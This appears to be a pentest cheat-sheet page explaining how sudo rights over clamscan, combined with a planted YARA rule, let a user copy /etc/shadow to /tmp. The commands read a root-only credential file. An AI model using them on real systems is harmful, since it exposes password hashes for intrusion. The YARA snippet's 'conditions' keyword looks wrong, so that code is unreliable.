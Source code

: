 ```yaml
---
title: Sudo ClamAV Privilege Escalation
description: Sudo clamscan command might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

If we can execute **“clamscan”** command as root as below,

```bash
sudo /usr/bin/clamscan /etc/shadow --copy=/tmp/results
```

we can read sensitive files by applying the custom yara rule.  

<br />

## Exploitation

### 1. Create a Yara Rule

First off, check the location in which the yara file can be created.

```bash
find / -name "clam*" 2>/dev/null
```

For instance, assume we can create the yara file under **/var/lib/clamav/**.  
Create the yara rule in there.  
Assume we want to read /etc/shadow, so specify the string **“root”** because the /etc/shadow contains “root” user name.

```bash
# /var/lib/clamav/test.yara
rule test
{
  strings:
    $string = "root"
  conditions:
    $string
}
```

### 2. Execute ClamScan

Now execute **"clamscan"** as root.

```bash
sudo /usr/bin/clamscan /etc/shadow --copy=/tmp/results
```

We can see **/etc/shadow** under **/tmp/results**.
